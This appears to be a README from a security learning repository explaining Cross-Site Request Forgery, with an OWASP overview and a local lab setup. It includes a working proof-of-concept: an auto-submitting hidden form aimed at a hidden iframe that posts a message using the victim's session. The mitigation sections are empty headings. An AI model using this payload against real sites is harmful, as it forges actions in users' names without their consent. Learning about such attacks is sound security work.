 # Cross Site Request Forgery

&nbsp;

## Overview
Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker's choosing. If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application.

Source: https://owasp.org/www-community/attacks/csrf

&nbsp;

## Folders
1. **[CSRF🖊️](../src/CSRF.md)**

&nbsp;

## Setup For Simulating Attack

This a POC attack that will work since both our
`localhost.charles.com` and `evil.com` site are on the same domain.

We will trick the user on `evil.com` to submit a form action on click of a link
that will contain a message posted to `localhost.charles.com`.

We will exploit there authenticated state and use take advantage of the user's
cookie to execute an unknown action posting a message on their behalf.

&nbsp;

```html
<div id="hide"><iframe name="hiddenFrame"></iframe></div>

<form id="theform"
      action="https://localhost.charlesproxy.com/"
      method="post"
      target="hiddenFrame">
  <label for="message">Message:</label><br>
  <textarea name="message">PWNED</textarea><br>
  <input type="submit">
</form>
<script>
  theform.submit()
</script>
```

## Setup For Mitigating Attack


&nbsp;

## Production Level Solution



